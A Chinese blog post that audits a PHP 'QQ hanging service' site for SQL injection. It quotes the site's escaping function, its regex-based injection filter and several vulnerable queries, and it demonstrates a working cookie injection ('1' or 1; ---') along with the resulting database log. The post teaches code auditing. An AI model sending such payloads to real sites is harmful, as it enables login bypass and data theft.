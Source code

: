 ```yaml
---
title: 'PHP - 简单代码审计'
date: 2018-07-18 12:34:05
tags:
    - Code Audit
    - PHP
    - Web
    - 网络安全
categories:
    - 技术分享
---
```


翻网盘的时候翻到了一堆 `代挂网站源码` ，大概是以前和别人合作的时候别人给的参考网站，现在对其中部分代码进行一次简单的代码审计，本次主要审计外部变量造成的SQL注入，运行环境版本为 `PHP5`
<!-- more -->
程序代码给出下载：

[天高云淡V2免授权版1.20.7z](simple-code-audit/天高云淡V2免授权版1.20.7z)

## PHP的外部变量

| 变量名 | 说明 |
|-------|------|
| $_SERVER | 记录服务器信息 |
| $_POST | 记录请求表单 |
| $_GET | 记录请求GET参数|
| $_COOKIE | 记录请求的Cookies|

## 代码审计 

一般来说，对于源代码中的外部变量遵循一个铁则：

> 永远不要相信用户的输入

本次利用 `NotePad++` 对代码进行搜索并分析上下文来确定是否包含SQL注入。

*搜索变量*

![](simple-code-audit/1.png)

## 审计过程

一般来说，比较简单的PHP网站，一个PHP文件一个页面，没有使用框架，就基本上不会对外部变量进行过滤，从代码来看，代码的作者至少有3位：

**转义函数**

```php
function safestr($str){
	if(!get_magic_quotes_gpc()){
		return addslashes($str);
	}else{
		return $str;
	}
}
```

### 说明

`addslashes`() 函数返回在预定义字符之前添加反斜杠的字符串。

预定义字符是：
- 单引号（'）
- 双引号（"）
- 反斜杠（\）
- NULL

默认地，PHP 对所有的 GET、POST 和 COOKIE 数据自动运行 addslashes()。所以您不应对已转义过的字符串使用 `addslashes`()，因为这样会导致双层转义。遇到这种情况时可以使用函数 get_magic_quotes_gpc() 进行检测。

可以看到这里对输入的字符串进行一次过滤，使用的地方如：

> /find.php:1~6
```php
<?php
require_once('includes/common.php');
if($_POST['do']=='find'){
	session_start();
	$user=safestr($_POST['user']);
	$aqanswer=safestr($_POST['aqanswer']);
```

但是也有未使用的地方（此管理目录，虽然有注入点，但是需要管理员权限才可运行）：

> /admin/addfz.php:13~15
```php
$d_qq = $_POST['d_qq'];
$d_user_name = $_POST['d_user_name'];
$d_user_pwd = $_POST['d_user_pwd'];
```

**安全检测**

此份代码里包含了安全检测部分，检测输入变量是否包含恶意字符：

> /includes/360_safe3.php

*部分代码*

```php
...
$getfilter="'|(and|or)\\b.+?(>|<|=|in|like)|\\/\\*.+?\\*\\/|<\\s*script\\b|\\bEXEC\\b|UNION.+?SELECT|UPDATE.+?SET|INSERT\\s+INTO.+?VALUES|(SELECT|DELETE).+?FROM|(CREATE|ALTER|DROP|TRUNCATE)\\s+(TABLE|DATABASE)";
$postfilter="\\b(and|or)\\b.{1,6}?(=|>|<|\\bin\\b|\\blike\\b)|\\/\\*.+?\\*\\/|<\\s*script\\b|\\bEXEC\\b|UNION.+?SELECT|UPDATE.+?SET|INSERT\\s+INTO.+?VALUES|(SELECT|DELETE).+?FROM|(CREATE|ALTER|DROP|TRUNCATE)\\s+(TABLE|DATABASE)";
$cookiefilter="\\b(and|or)\\b.{1,6}?(=|>|<|\\bin\\b|\\blike\\b)|\\/\\*.+?\\*\\/|<\\s*script\\b|\\bEXEC\\b|UNION.+?SELECT|UPDATE.+?SET|INSERT\\s+INTO.+?VALUES|(SELECT|DELETE).+?FROM|(CREATE|ALTER|DROP|TRUNCATE)\\s+(TABLE|DATABASE)";
...
foreach($_GET as $key=>$value){ 
	StopAttack($key,$value,$getfilter);
}
foreach($_POST as $key=>$value){ 
	StopAttack($key,$value,$postfilter);
}
foreach($_COOKIE as $key=>$value){ 
	StopAttack($key,$value,$cookiefilter);
}
```

## 审计结果

从代码静态审计来看，注入点比较多，例如：

> /mgmt/qd.php:17 注入参数： POST:uin
```php
$qq=$_POST['uin'];
...
if (!$qqrow=$db->get_row("select * from {$prefix}qqs where qq='$qq' and uid='$userrow[uid]' limit 1")) {
```

### 可用注入

>/includes/common.php:77 注入参数：COOKIE:tgyd_sid **可用**
```php

$cookiesid = $_COOKIE['tgyd_sid'];

if ($cookiesid && $userrow = $db->get_row("select * from {$prefix}users where sid ='$cookiesid' limit 1")) {

    C('loginuser', $userrow['user']);

    C('loginuid', $userrow['uid']);

} 
```

### POST 实列

```
GET http://qq.atd3.org/includes/common.php HTTP/1.1
Host: qq.atd3.org
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie:tgyd_sid=1' or 1%3B --- 
X-Forwarded-For: 222.222.112.1

```

### 注入日志

```
180718 12:32:12	   16 Connect	root@localhost on 
		   16 Init DB	qq_tgyd
		   16 Query	set names utf8
		   16 Query	select * from tgyd_separate where urls='qq.atd3.org' limit 1
		   16 Query	select * from tgyd_webconfigs
		   16 Query	select * from tgyd_users where sid ='1' or 1; ---' limit 1
		   16 Quit	
```